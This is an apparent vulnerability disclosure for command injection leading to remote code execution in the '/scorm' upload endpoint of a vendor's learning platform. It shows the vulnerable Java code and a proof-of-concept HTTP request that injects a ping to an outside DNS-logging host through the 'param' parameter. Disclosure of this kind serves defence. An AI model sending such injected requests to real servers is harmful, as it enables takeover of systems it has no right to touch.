




# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

### Title:
**command injection To Remote Code Execution (RCE) Vulnerability in `/scorm` Endpoint**

### Summary:
The `/scorm` endpoint in the application is vulnerable to Remote Code Execution (RCE) due to improper handling of parametor like `param`. An attacker can inject the command , leading to RCE of the system.

### Affected Endpoint:
`/scorm`

### Vulnerability Type:
Remote Code Execution (RCE)

### Vulnerable Code:
```java
 @RequestMapping({"/scorm"})
 @ResponseBody
 public String scorm(HttpServletRequest request, HttpServletResponse response) {
    try {
       MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
       MultipartFile imgFile = multipartRequest.getFile("fileupload");
       if (imgFile.getName().endsWith(".jsp")) {
          return null;
       } else {
          String[] paths = FileUtil.getSavePathByRequest(request);
          JsonObject json = FileUtil.saveScormZipFile(imgFile, paths);
          logger.info("++++upload img return:" + json.get("url").getAsString());
          return json.get("url").getAsString();
       }
    } catch (Exception var7) {
       logger.error("goswf error", var7);
       return null;
    }
 }
```

```java
 public static String[] getSavePathByRequest(HttpServletRequest request) {
    String base = request.getParameter("base");
    if (StringUtils.isEmpty(base)) {
       base = "imgdefault";
    }

    String param = request.getParameter("param");
    if (StringUtils.isEmpty(param)) {
       param = "common";
    }

    String dateStr = DateUtils.toString(new Date(), "yyyyMMdd");
    String ukey = request.getParameter("ukey");
    StringBuffer savePath = new StringBuffer();
    StringBuffer urlPath = new StringBuffer();
    savePath.append(rootpath).append("/").append("upload").append("/").append(base).append("/").append(param);
    urlPath.append("/").append("upload").append("/").append(base).append("/").append(param);
    if (StringUtils.isNotEmpty(ukey)) {
       savePath.append("/").append(ukey);
       urlPath.append("/").append(ukey);
    }

    savePath.append("/").append(dateStr);
    urlPath.append("/").append(dateStr);
    String[] result = new String[]{savePath.toString(), urlPath.toString()};
    return result;
 }

```

```java
 public static JsonObject saveScormZipFile(MultipartFile file, String[] paths) {
    JsonObject obj = new JsonObject();

    try {
       String savePath = paths[0];
       String urlPath = paths[1];
       String newFileName = "";
       String upFileName = file.getOriginalFilename();
       if (StringUtils.isNotEmpty(upFileName)) {
          newFileName = getRandomFileNameString(upFileName);
          File isD = new File(savePath);
          if (!isD.isDirectory()) {
             isD.mkdirs();
          }

          if (!isD.exists()) {
             Class var8 = FileUtil.class;
             synchronized(FileUtil.class) {
                isD.mkdirs();
             }
          }

          String saveFilename = savePath + File.separator + newFileName;
          file.transferTo(new File(saveFilename));
          obj.addProperty("error", 0);
          urlPath = urlPath + "/" + newFileName;
          obj.addProperty("url", urlPath);
          String command = "";
          String dir = "";
          if (urlPath.endsWith(".zip")) {
             dir = "/data/htdocs/static" + urlPath.replace(".zip", "");
             File f = new File(dir);
             if (!f.exists()) {
                f.mkdirs();
             }

             command = "unzip /data/htdocs/static" + urlPath + " -d " + dir;
             System.out.println(command);
          }

          if (StringUtils.isNotEmpty(command)) {
             Process process = Runtime.getRuntime().exec(command);
             process.waitFor();
             urlPath = urlPath.replace(".zip", "");
             String[] list = (new File(dir)).list();
             if (list.length > 0) {
                String[] var13 = list;
                int var14 = list.length;

                for(int var15 = 0; var15 < var14; ++var15) {
                   String fName = var13[var15];
                   if (fName.endsWith(".html") || fName.endsWith(".htm")) {
                      obj.addProperty("url", urlPath + "/" + fName);
                      break;
                   }
                }
             }
          }
       } else {
          obj.addProperty("error", -1);
          obj.addProperty("message", "文件名为空");
       }

       return obj;
    } catch (Exception var18) {
       logger.error("+++upload kindeditor images error", var18);
       obj.addProperty("error", -1);
       obj.addProperty("message", "上传异常，请稍后再试");
       return obj;
    }
 }
```

### Proof of Concept (PoC):

```plaintext
POST /scorm?param=;ping 7b8f93d0.log.dnslog.myfw.us.; HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update.txt"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```



### Impact:

This vulnerability allows an attacker to upload and execute arbitrary code on the server, potentially leading to unauthorized access, data theft, or complete system compromise. The attacker could manipulate the server's behavior, steal sensitive information, or launch further attacks from the compromised server.

### Recommendation:
1. Validate file extensions and content types to ensure that only safe file types are accepted for upload.
2. Implement proper input validation and sanitization techniques to prevent malicious file uploads.
3. Consider implementing a Content Security Policy (CSP) to restrict the types of content that can be executed on the server.
4. Regularly update and patch the application to address security vulnerabilities.

### Conclusion:
The Remote Code Execution (RCE) vulnerability in the `/scorm` endpoint poses a significant security risk to the application. It is crucial to address this issue promptly by implementing the recommended security measures to prevent potential exploitation by malicious actors.

### References:
1. OWASP File Upload Security: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
2. OWASP Top Ten: https://owasp.org/www-project-top-ten/

